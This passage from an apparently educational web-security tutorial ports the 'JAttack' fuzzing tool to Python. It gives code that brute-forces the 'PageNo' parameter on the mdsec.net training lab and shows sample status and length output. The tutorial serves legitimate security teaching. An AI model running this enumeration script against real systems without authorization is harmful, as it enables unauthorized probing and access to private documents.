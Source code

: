 📝 **Purpose:** 
* Generates a sequence of numbers to try as payloads. (e.g., brute-forcing document IDs).

---

### (c) Build and Send Request

We need to insert payloads into the right spot in HTTP requests.
Instead of raw socket handling, Python’s **requests** library makes it super clean:

```python
import requests

def send_request(param, payload):
    url = "http://mdsec.net/app/ShowPage.ashx"
    response = requests.get(url, params={param.name: payload})
    return response.status_code, len(response.text)
```

📝 **Purpose:** 
* Builds the HTTP request with the current payload and returns key info (status + length).

---

### (d) Orchestrating the Attack

```python
def do_attack():
    param = Param("PageNo", "10069", attack=True)
    payloads = NumberPayloads(10060, 10065)

    print("param\tpayload\tstatus\tlength")

    while True:
        payload = payloads.next_payload()
        if payload is None:
            break
        status, length = send_request(param, payload)
        print(f"{param.name}\t{payload}\t{status}\t{length}")

do_attack()
```
➡️ This is the **full working equivalent of JAttack** in \~40 lines of Python.

* No `Socket` boilerplate.
* No manual `Content-Length`.
* Easy to extend with new payload sources.

**Sample Output**:

(when running against the same range)

```
param   payload   status   length
PageNo  10060     500      3154
PageNo  10061     500      3154
PageNo  10062     200      1083
PageNo  10063     200      1080
PageNo  10064     500      3154
```

---